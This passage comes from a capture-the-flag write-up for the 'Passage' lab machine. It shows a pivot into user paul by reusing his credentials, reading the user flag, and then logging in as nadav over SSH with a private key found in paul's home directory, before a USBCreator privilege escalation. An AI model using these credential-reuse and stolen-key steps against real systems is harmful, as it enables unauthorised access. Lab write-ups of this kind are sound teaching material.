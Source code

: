   ```
  [+] All users & groups
  uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
  uid=1001(paul) gid=1001(paul) groups=1001(paul)
  ```
  

 First thing to test is Paul credentials, which worked successfully at first try and allowed us to get the user flag! :smile:

```
www-data@passage:~$ su paul
Password:
paul@passage:~$ cat user.txt
<redacted>
paul@passage:~$
```

## Root flag

First thing to do with *paul* credentials was another attempt to exploit USBCreator vulnerability, which failed just like www-data due to insufficient privileges.

Analyzing the user's home directory, found a RSA keypair where Paul authored it to ssh without credentials adding the public key inside `authorized_keys` file. 

```
paul@passage:~/.ssh$ ls -la
total 24
drwxr-xr-x  2 paul paul 4096 Jul 21  2020 .
drwxr-x--- 16 paul paul 4096 Feb  5 06:30 ..
-rw-r--r--  1 paul paul  395 Jul 21  2020 authorized_keys
-rw-------  1 paul paul 1679 Jul 21  2020 id_rsa
-rw-r--r--  1 paul paul  395 Jul 21  2020 id_rsa.pub
-rw-r--r--  1 paul paul 1312 Jul 21  2020 known_hosts
```

Taking a closer look to `id_rsa.pub`, noticed that it was created by **nadav**. After seeing this I have immediately tried to ssh using the obtained private key as this user and luckily I had success on it! :smiley:

```bash
$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage

$ ssh -i id_rsa nadav@10.10.10.206
Last login: Thu Feb 25 13:41:27 2021 from 10.10.10.10
nadav@passage:~$ id
uid=1000(nadav) gid=1000(nadav) groups=1000(nadav),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
Finally, now as **nadav**, gave another try to USBCreator vulnerability and this time we had success once we have all required permissions to execute it. 
